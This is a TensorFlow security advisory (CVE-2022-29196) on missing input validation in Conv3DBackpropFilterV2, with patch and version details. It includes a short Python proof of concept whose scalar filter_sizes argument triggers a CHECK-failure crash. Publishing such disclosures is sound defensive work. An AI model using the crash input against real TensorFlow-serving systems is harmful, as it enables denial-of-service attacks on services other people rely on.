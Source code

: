 ## TFSA-2022-070: Missing validation causes denial of service via `Conv3DBackpropFilterV2`

### CVE Number
CVE-2022-29196

### Impact
The implementation of [`tf.raw_ops.Conv3DBackpropFilterV2`](https://github.com/galeone/tensorflow/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/tensorflow/core/kernels/conv_grad_ops_3d.cc) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import tensorflow as tf

tf.raw_ops.Conv3DBackpropFilterV2(
  input=tf.constant(.5053710941, shape=[2,2,2,2,1], dtype=tf.float16),
  filter_sizes=tf.constant(0, shape=[], dtype=tf.int32),
  out_backprop=tf.constant(.5053710941, shape=[2,2,2,2,1], dtype=tf.float16),
  strides=[1, 1, 1, 1, 1],
  padding="VALID",
  data_format="NDHWC",
  dilations=[1, 1, 1, 1, 1])
```

The code does not validate that the `filter_sizes` argument is a vector.

### Patches
We have patched the issue in GitHub commit [174c5096f303d5be7ed2ca2662b08371bff4ab88](https://github.com/galeone/tensorflow/commit/174c5096f303d5be7ed2ca2662b08371bff4ab88).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
